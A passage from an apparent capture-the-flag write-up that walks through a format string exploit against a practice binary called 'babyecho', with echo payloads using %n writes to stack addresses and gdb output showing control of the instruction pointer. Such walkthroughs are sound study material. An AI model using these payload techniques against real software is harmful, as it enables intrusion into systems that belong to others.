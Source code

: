 <pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''AAAABBBBCCCCDDDD &lt;&lt; %7$x * %8$x * %9$x * %10$x &gt;&gt;' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
AAAABBBBCCCCDDDD &lt;&lt; 41414141 * 42424242 * 43434343 * 44444444 &gt;&gt;
</pre>

As expected, the 7th, 8th, 9th, and 10th values on the stack were "AAAA", "BBBB", "CCCC", and "DDDD". If that doesn't make sense, go take a look at func_a(), which was one of my first examples, and which put AAAA, BBBB, and CCCC onto the stack.

Now, since we can write to multiple addresses, instead of doing a single gigabyte of writing, we can do either two or four short writes. I'll do four, since that's more commonly seen. That means we're going to do something like this (once again, I'm adding quotes to make it clear what's happening, they'll disappear):

<pre>
'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%49x%7$n''%8$n''%9$n''%10$n'
</pre>

Breaking it down:
<ul>
  <li>The first 16 bytes are the four addresses - 0xffffc14c, 0xffffc14d, 0xffffc14e, and 0xffffc14f. Something interesting to note is that 0xffffc150 - 0xffffc152 will also get overwritten, but we aren't going to worry about those</li>
  <li>"%49x" will output 49 bytes. This is simply to pad our string to a total of 65 - 0x41 - bytes (49 bytes here + 16 bytes worth of addresses)</li>
  <li>"%7$n" will write the value 0x41 - the number of bytes that have so far been printed - to the first of the four addresses, which is 0x41414141 ("AAAA")</li>
  <li>"%8$n" will write 0x41 - still the number of printed bytes so far - to the second address, 0x42424242</li>
  <li>"%9$n" and "%10$n" do exactly the same thing to 0x43434343 and 0x44444444</li>
</ul>

Let's give it a shot (I'm going to start redirecting to /dev/null, because we really don't need to see the crap being printed anymore):

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%49x%7$n''%8$n''%9$n''%10$n' | ./babyecho &gt; /dev/null</span>
Segmentation fault (core dumped)
$ <span class='in'>gdb -q ./babyecho ./core</span>
Reading symbols from ./babyecho...(no debugging symbols found)...done.
[New LWP 2662]
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
</pre>

Sweet! It worked!
